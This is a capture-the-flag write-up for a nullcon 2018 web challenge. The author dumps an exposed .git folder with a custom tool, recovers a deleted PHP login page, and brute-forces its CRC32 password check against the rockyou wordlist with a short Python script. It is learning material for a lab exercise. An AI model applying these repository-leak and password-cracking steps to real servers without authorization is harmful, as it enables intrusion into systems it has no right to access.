

# Web2, Web, 200pts

## Problem

Hidden in Plain Sight
http://34.201.73.166/

## Solution

When we open url, we see very simple static website:


HTML source review does not give any clue, so it's time to perform some basic recon.

I don't know why, but since couple of months I have a very weird behaviour - I always check if there is ```.git``` folder on the server (perhaps because I deal with Git a lot in my daily job).

And this time that was a perfect shot:


From this point, the rest is easy. First, |I had to figure out what was commited and obtain commits hashes. This can be done by reviewing ```.git/logs/HEAD``` file:





There are two very interesting comments - some files were added and then removed:


Let's try to figure them out (I am using here my own tool I wrote some time ago - ```diggit.py``` https://github.com/bl4de/security-tools/tree/master/diggit) 

If you are interested how it works, and how to obtain information from ```.git``` folder in general: take a look at my writeup here: https://github.com/bl4de/research/tree/master/hidden_directories_leaks#git)


First, in one of the commits I found an information about SHA1 hash of directory tree (d0e6ad36b77a2c8f9ba6708c995f1cb830b9e7fa):


```
$ ./diggit.py  -t /Users/bl4de/hacking/ctf/2018/nullcon_CTF_2018/web2/ -u http://34.201.73.166/  -o d0e6ad36b77a2c8f9ba6708c995f1cb830b9e7fa
usage: diggit.py [-h] [-u U] [-t T] [-o O] [-r R]

diggit.py - get information about Git object(s) from remote repository

optional arguments:
  -h, --help  show this help message and exit
  -u U        URL of remote Git repository location
  -t T        path to temporary Git folder on local machine
  -o O        object hash (SHA-1, all 40 characters)
  -r R        be recursive (if commit or tree hash found get all blobs too).
              Default is 'False'


##############################################################################
###                                                                        ###
###                                                                        ###
###         diggit.py  |  Twitter: @_bl4de  | GitHub: bl4de                ###
###                                                                        ###
###                                                                        ###
##############################################################################

############ d0e6ad36b77a2c8f9ba6708c995f1cb830b9e7fa information ############

[*] Object type: tree

[*] Object content:

040000 tree 4838e77b2bb4655d0b46165ec6473460dc90b4dd	3e90c63922fa145442bb58d18b62af6c21717fee
100644 blob f33993193d51b645f99d63497ae7265820e05eda	header.jpg
100644 blob 59ba645070811b01a63dd8f8af89a65b21408643	index.html
100644 blob b5a144fb1fcf2acdcd5db2ac0725ed2679aa06aa	style.css


##############################################################################
```


There was a folder named ```3e90c63922fa145442bb58d18b62af6c21717fee``` and in the next commit it seems to be removed. Using its Git hash (4838e77b2bb4655d0b46165ec6473460dc90b4dd) I've found its content:


```
$ ./diggit.py  -t /Users/bl4de/hacking/ctf/2018/nullcon_CTF_2018/web2/ -u http://34.201.73.166/  -o 4838e77b2bb4655d0b46165ec6473460dc90b4dd
usage: diggit.py [-h] [-u U] [-t T] [-o O] [-r R]

diggit.py - get information about Git object(s) from remote repository

optional arguments:
  -h, --help  show this help message and exit
  -u U        URL of remote Git repository location
  -t T        path to temporary Git folder on local machine
  -o O        object hash (SHA-1, all 40 characters)
  -r R        be recursive (if commit or tree hash found get all blobs too).
              Default is 'False'


##############################################################################
###                                                                        ###
###                                                                        ###
###         diggit.py  |  Twitter: @_bl4de  | GitHub: bl4de                ###
###                                                                        ###
###                                                                        ###
##############################################################################

############ 4838e77b2bb4655d0b46165ec6473460dc90b4dd information ############

[*] Object type: tree

[*] Object content:

100644 blob 2fe7e986096174eaa215846ae64ea83409594840	index.php
100644 blob d8d10cc949bd91efe792a72a119c796bbdb3dfc6	style.css


##############################################################################
```

The folder itself hides simple login form:


Oh, and there is ```index.php``` file in this folder, let's take a look what's inside:


```
$ ./diggit.py  -t /Users/bl4de/hacking/ctf/2018/nullcon_CTF_2018/web2/ -u http://34.201.73.166/  -o 2fe7e986096174eaa215846ae64ea83409594840
usage: diggit.py [-h] [-u U] [-t T] [-o O] [-r R]

diggit.py - get information about Git object(s) from remote repository

optional arguments:
  -h, --help  show this help message and exit
  -u U        URL of remote Git repository location
  -t T        path to temporary Git folder on local machine
  -o O        object hash (SHA-1, all 40 characters)
  -r R        be recursive (if commit or tree hash found get all blobs too).
              Default is 'False'


##############################################################################
###                                                                        ###
###                                                                        ###
###         diggit.py  |  Twitter: @_bl4de  | GitHub: bl4de                ###
###                                                                        ###
###                                                                        ###
##############################################################################

############ 2fe7e986096174eaa215846ae64ea83409594840 information ############

[*] Object type: blob

[*] Object content:

<html>
    <head>
        <link rel="stylesheet" type="text/css" media="screen" href="style.css" />
    </head>
    <body>
    <form class="login" method="post">
    <h1 class="login-title">Login for flag</h1>
        <input name="user" id="user" type="text" class="login-input" placeholder="Username" autofocus>
        <input name="pass" id="pass" type="password" class="login-input" placeholder="Password">
        <input type="submit" value="Lets Go" class="login-button">


  <?php
error_reporting(0);
$FLAG = readfile('/var/flags/level1.txt');
if (!empty($_POST['user']) && !empty($_POST['pass'])) {
    if(checklogin($_POST['user'],$_POST['pass'])){
        echo "<font style=\"color:#FF0000\"><h3>The flag is: $FLAG</h3><br\></font\>";
    }else{
        echo "<br /><font style=\"color:#FF0000\">Invalid credentials! Please try again!<br\></font\>";
    }
}


function checklogin($u,$p)
{
    if (($u) === "passwordisinrockyou" && crc32($p) == "550274426"){ //
        return true;
        }
    }
?>
</form>

</body>
</html>


##############################################################################
```


There is one very interesting condition in this file:


```php
if (($u) === "passwordisinrockyou" && crc32($p) == "550274426"){ 
```


This condition checks if user is trying to log in using ```passwordisinrockyou``` as username and password get from ```rockyou``` dictionary, which has checksum calculated with ```CRC 32``` eqals to 550274426.

Let's write a simple script to reveal which password we have to use (you can download ```rockyou``` dictionary from this url: https://wiki.skullsecurity.org/Passwords):


```python
#!/usr/bin/python
import zlib
crc = 550274426

with open('/Users/bl4de/hacking/dictionaries/rockyou.txt', 'r') as f:
    for passwd in f:
        passwd = passwd.strip()
        if abs(zlib.crc32(passwd)) == crc:
            print "found '{}' with crc32({}) = {}".format(passwd, passwd, zlib.crc32(passwd))
            exit(0)

print "not found :("


```

It took just a fraction of second to reveal that password is ```trumpet```:

```
$ ./crc.py
found 'trumpet' with crc32(trumpet) = 550274426
```

Let's try those credentials then:


And we got our flag:


**The Flag:**
```
hackim18{SeCuRiTy-MisConfiGuraTionS-ArE-Bad}
```